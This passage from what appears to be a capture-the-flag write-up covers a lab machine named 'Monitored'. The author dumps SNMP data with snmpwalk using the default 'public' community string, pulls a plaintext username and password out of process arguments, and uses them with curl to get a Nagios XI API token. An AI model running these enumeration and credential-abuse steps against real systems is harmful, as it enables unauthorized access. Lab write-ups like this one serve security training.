 Here we could see that Nmap was indeed enabled. next step is to dump all information from the SNMP using the snmp walk command. I push all the info to a file because SNMP often contains so much info it wouldn't fit on the screen fully.

```bash
snmpwalk -v2c -c public nagios.monitored.htb > snmpwalk
```

Reading through the output of snmpwalk we could find some very interesting start up commands.Here we see it runs some script with what seems like a username and password being **svc** and password **XjH7VCehowpR1xZB**

```bash
so.3.6.1.2.1.25.4.2.1.5.546 = ""
iso.3.6.1.2.1.25.4.2.1.5.547 = STRING: "-u -s -O /run/wpa_supplicant"
iso.3.6.1.2.1.25.4.2.1.5.556 = STRING: "-f"
iso.3.6.1.2.1.25.4.2.1.5.575 = STRING: "-c sleep 30; sudo -u svc /bin/bash -c /opt/scripts/check_host.sh svc XjH7VCehowpR1xZB "
iso.3.6.1.2.1.25.4.2.1.5.638 = STRING: "-4 -v -i -pf /run/dhclient.eth0.pid -lf /var/lib/dhcp/dhclient.eth0.leases -I -df /var/lib/dhcp/dhclient6.eth0.leases eth0"
iso.3.6.1.2.1.25.4.2.1.5.727 = STRING: "-f /usr/local/nagios/etc/pnp/npcd.cfg"
iso.3.6.1.2.1.25.4.2.1.5.733 = STRING: "-LOw -f -p /run/snmptrapd.pid"
iso.3.6.1.2.1.25.4.2.1.5.745 = STRING: "-LOw -u Debian-snmp -g Debian-snmp -I -smux mteTrigger mteTriggerConf -f -p /run/snmpd.pid"
iso.3.6.1.2.1.25.4.2.1.5.755 = STRING: "-o -p -- \\u --noclear tty1 linux"
iso.3.6.1.2.1.25.4.2.1.5.765 = STRING: "-p /var/run/ntpd.pid -g -u 108:116"
```
### Exploiting SVC account

So now have a username and a password but no clue yet where this could be used. When trying to authenticate to the nagiosxi portal this didn't work. Neither did ldap nor SSH. When looking further into Nagios i stumbled upon the backend ticket authentication method which is seperate from the portal.[A support ticket](https://support.nagios.com/forum/viewtopic.php?f=16&t=58783) detailed how someone was struggling to get the authentication to work. Basically this told me that auth tokens were a thing and you could obtain em using the following code examples.

```
curl -XPOST -k -L 'http://YOURXISERVER/nagiosxi/api/v1/authenticate?pretty=1' -d 'username=nagiosadmin&password=YOURPASS&valid_min=5'
curl -k -L 'http://YOURXISERVER/nagiosxi/includes/components/nagioscore/ui/trends.php?createimage&host=localhost&token=TOKEN' > image.png
```

So changing these example requests to fit our needs we'd get the following curl command to obtain a code.

```bash
curl -POST -k 'https://nagios.monitored.htb/nagiosxi/api/v1/authenticate' -d 'username=svc&password=XjH7VCehowpR1xZB&valid_min=1000' --proxy "http://127.0.0.1:8080"
```

![Token Acquired](/assets/img/Monitored/Monitored_02.png)

So now that we have a working token i performed the command the code example gave to test if it actually generated a working auth token. It generated an image with trends information so this token was working perfectly fine.
